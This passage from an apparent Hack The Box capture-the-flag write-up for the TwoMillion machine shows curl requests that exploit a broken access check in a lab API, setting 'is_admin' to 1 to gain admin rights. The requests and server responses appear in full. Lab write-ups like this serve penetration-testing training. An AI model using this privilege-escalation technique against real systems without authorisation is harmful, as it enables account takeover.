 We now get a new error message, specifically that there is a parameter missing called email . Let's supply
the email for our own user in JSON format:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" -H "Content-Type: application/json" --data '{"email":"test@2million.htb"}' 

<SNIP>


  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

We get another error for a missing parameter called is_admin . Let's add this as well:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" -H "Content-Type: application/json" --data '{"email":"test@2million.htb", "is_admin": true}' | jq  

<SNIP>

{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```

Since we set the parameter to true , an error message informs us that this variable needs a value of 0 or 1.
Let's set it to 1:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" -H "Content-Type: application/json" --data '{"email":"test@2million.htb", "is_admin": '1'}' | jq 

<SNIP>

{
  "id": 15,
  "username": "hacker",
  "is_admin": 1
}
```

The above command seems to have been successful as our user information is returned and the is_admin
variable is set to 1. We can further verify this by accessing the /admin/auth endpoint that we saw earlier:
